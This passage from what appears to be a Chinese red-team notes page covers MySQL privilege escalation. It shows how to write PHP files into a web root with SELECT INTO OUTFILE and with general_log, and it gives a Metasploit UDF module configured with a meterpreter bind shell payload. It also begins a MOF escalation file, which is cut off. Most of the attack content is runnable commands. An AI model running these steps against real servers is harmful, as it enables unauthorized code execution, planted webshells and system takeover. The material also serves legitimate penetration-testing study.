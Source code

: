     利用 log 变量,猜绝对路径

    ![](../../../../../assets/img/安全/笔记/RedTeam/后渗透/权限提升/1.png)

    或者直接查询 `select @@basedir;`

    直接 SQL 写文件 `select '<?php phpinfo(); ?>' INTO OUTFILE 'C:/phpStudy/PHPTutorial/WWW/a.php';`

    如果 file_priv 为 null,那么是写不了的,可以尝试使用日志写马
    ```sql
    set global general_log='on';
    set global general_log_file='C:/phpStudy/PHPTutorial/WWW/a.php';
    select '<?php phpinfo(); ?>';
    set global general_log=off;
    ```

**UDF 提权**
- 文章
    - [Command execution with a MySQL UDF](http://bernardodamele.blogspot.com/2009/01/command-execution-with-mysql-udf.html)

- POC | Payload | exp
    - [mysqludf/lib_mysqludf_sys](https://github.com/mysqludf/lib_mysqludf_sys)

- MSF 模块
    ```bash
    use exploit/multi/mysql/mysql_udf_payload
    set RHOSTS <ip>
    set USERNAME <user>
    set PASSWORD <pass>
    set target 0
    set payload windows/meterpreter/bind_tcp
    set RHOST <ip>
    set LPORT 4444
    exploit
    ```

- 相关靶场
    - [Kioptrix4](../../../实验/VulnHub/Kioptrix/Kioptrix4-WalkThrough.md)

**MOF 提权**

MOF提权的条件要求十分严苛:
1. windows 03 及以下版本
2. mysql 启动身份具有权限去读写 c:/windows/system32/wbem/mof 目录
3. secure-file-priv 参数不为 null

```ini
#pragma namespace("\\.\root\subscription")

instance of __EventFilter as
{
EventNamespace = "Root\Cimv2";
Name  = "filtP2";
Query = "Select * From __InstanceModificationEvent "
    "Where TargetInstance Isa \"Win32_LocalTime\" "
    "And TargetInstance.Second = 5";
QueryLanguage = "WQL";
};

instance of ActiveScriptEventConsumer as
{
```